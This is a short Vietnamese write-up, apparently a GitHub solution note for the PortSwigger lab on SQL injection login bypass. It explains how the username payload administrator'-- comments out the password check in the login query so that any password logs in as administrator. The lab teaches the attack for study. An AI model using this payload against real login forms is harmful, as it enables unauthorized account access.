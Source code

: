 # SQL injection vulnerability allowing login bypass

Để giải quyết vấn đề, ta cần đăng nhập với tư cách là quản trị viên

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/Sql%20injection%20vulnerability%20allowing%20login%20bypass/1.png?raw=true)

Câu lệnh truy vấn SQL có form như sau:

`SELECT * FROM users WHERE username = '<USERS>' AND password = '<PASSWORD>'`

Ta sẽ sử dụng tài khoản mật khẩu:
`administrator'--`
`123456`

Kết quả của câu lệnh truy vấn sẽ thành:

`SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'  `

Phần đứng sau kí tự `--` sẽ bị bỏ qua nên ta có thể nhập mật khẩu bất kì mà vẫn đăng nhập thành công.

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/Sql%20injection%20vulnerability%20allowing%20login%20bypass/2.png?raw=true)
